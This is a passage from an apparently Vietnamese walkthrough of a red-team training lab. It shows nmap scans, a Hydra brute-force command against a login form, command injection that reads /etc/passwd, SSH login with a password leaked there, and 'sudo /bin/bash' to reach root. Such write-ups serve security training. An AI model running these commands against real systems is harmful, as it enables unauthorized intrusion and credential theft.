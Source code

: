 Ta không có IP target sẵn như HTB, THM hay các CTF khác. Nên ta cần quét trước:
```Bash
nmap -sN 192.168.80.0/24
```
Ta đã xác định được một IP thuộc dãy External IP
```Bash
Nmap scan report for 192.168.80.1
Host is up (0.26s latency).
All 1000 scanned ports on 192.168.80.1 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap scan report for 192.168.80.10
Host is up (0.37s latency).
All 1000 scanned ports on 192.168.80.10 are in ignored states.
Not shown: 1000 open|filtered tcp ports (no-response)

Nmap done: 256 IP addresses (2 hosts up) scanned in 444.92 seconds
```
Ok, ta tìm được 2 IP thuộc dãy này. 192.168.80.1 chỉ mở ra trang của pfsense. Quét tiếp vào IP 192.168.80.10:
```Bash
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms --max-retries 3 --open -A
```
```Bash
Discovered open port 22/tcp on 192.168.80.10
Discovered open port 80/tcp on 192.168.80.10
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Có vẻ như chỉ có http và ssh. Ta thử truy cập vào web của dãy này:
![[CRTA_img1.png]]
Hmm, có vẻ ta cần kiểm tra source trước.
Nothing. Brute-forcing
```Bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/index.php:id=^USER^&password=^PASS^&remember=on:S=logout.php" -t 30 -V
```
Not working. Xin lỗi vì phải xem qua wu một chút =((
Có vẻ ta cần tận dụng chức năng đăng ký và đăng nhập của website.
Ta sẽ đăng ký một cred đơn giản là 123:123 ; ta sẽ truy cập được dashboard:
![[CRTA_img2.png]]
Có vẻ có một vài chức năng liên quan đến search, tôi nghĩ tôi sẽ tìm xem có bất kỳ lỗi SQL nào hay không, hoặc có thể là command injection.
Oke, ta có thể tìm email qua this one:
![[Pasted image 20250903195402.png]]
Một điều thú vị là nếu ta dùng Burp Suite hoặc CAIDO để xem respond website thì:
![[Pasted image 20250903195509.png]]
![[Pasted image 20250903201205.png]]
Gửi nó đến repeater và thử với lệnh "ls". Ta thấy respond trả về một danh sách các file. Thử truy cập chúng nào.
Có vẻ không có gì, thử dump vào /etc/passwd?![[Pasted image 20250903201451.png]]
Oh shiet, ta có thể tìm được privsec:
```Bash
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```
Thử truy cập ssh nhỉ:
```Bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh privilege@$target 
The authenticity of host '192.168.80.10 (192.168.80.10)' can't be established.
ED25519 key fingerprint is SHA256:RHpGTqvkXkAP6/HA3vpHP8gkrtApbfyYYjteCh3N/TE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.80.10' (ED25519) to the list of known hosts.
privilege@192.168.80.10's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

273 updates can be applied immediately.
273 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Wed Sep  3 18:02:08 2025 from 10.10.200.80
privilege@ubuntu-virtual-machine:~$
```
Nice. Check sơ qua thì có một thứ rất đặc biệt:
```Bash
sudo -l
```
Ta có quyền của sudo, nên chỉ cần khai thác vào:
```Bash
privilege@ubuntu-virtual-machine:~$ sudo /bin/bash
root@ubuntu-virtual-machine:/home/privilege#
```
Lên được root rồi, hè hè. Check vavi